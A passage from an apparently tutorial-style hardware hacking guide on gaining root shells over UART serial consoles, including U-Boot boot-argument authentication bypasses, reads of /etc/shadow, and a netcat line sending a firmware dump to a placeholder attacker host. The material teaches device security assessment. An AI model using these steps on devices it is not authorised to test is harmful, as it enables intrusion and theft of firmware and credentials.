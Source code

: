 ```bash

# Windows: Use PuTTY or TeraTerm
# Serial, COM3, 115200 baud, 8N1
```

**UART baud rate detection (if unknown):**

```bash
# Use logic analyzer or oscilloscope to measure bit timing
# Or try common rates:
for baud in 9600 19200 38400 57600 115200 230400; do
    echo "Trying baud rate: $baud"
    screen /dev/ttyUSB0 $baud
    # Press Enter, look for readable output
    # Ctrl+A, K to exit
done
```

**UART shell access:**

```bash
# Best case: Get root shell directly
# Output during boot:
# ...
# BusyBox v1.28.4 (2023-01-01 12:00:00 UTC) built-in shell (ash)
# Enter 'help' for a list of built-in commands.
#
# / #  (root shell!)

# Commands to run:
cat /proc/cpuinfo       # CPU architecture
cat /proc/mtd           # Flash partitions
cat /proc/cmdline       # Kernel boot parameters
ifconfig                # Network configuration
ps aux                  # Running processes
cat /etc/passwd         # User accounts
cat /etc/shadow         # Password hashes (if readable)

# Dump firmware from UART:
dd if=/dev/mtd0 | nc <attacker_ip> 1234
```

**Bypassing authentication (if UART is password-protected):**

```bash
# Method 1: Interrupt bootloader (U-Boot)
# Power on device, press Ctrl+C or Enter repeatedly during boot
# Drop into U-Boot shell:
# U-Boot>

# Common U-Boot commands:
printenv                # Show environment variables
setenv bootargs "init=/bin/sh"  # Boot directly to shell (bypass init)
boot                    # Boot with modified parameters

# Method 2: Edit kernel cmdline
setenv bootargs "console=ttyS0,115200 init=/bin/sh"
saveenv
boot

# Method 3: Single-user mode
setenv bootargs "console=ttyS0,115200 single"
boot
```
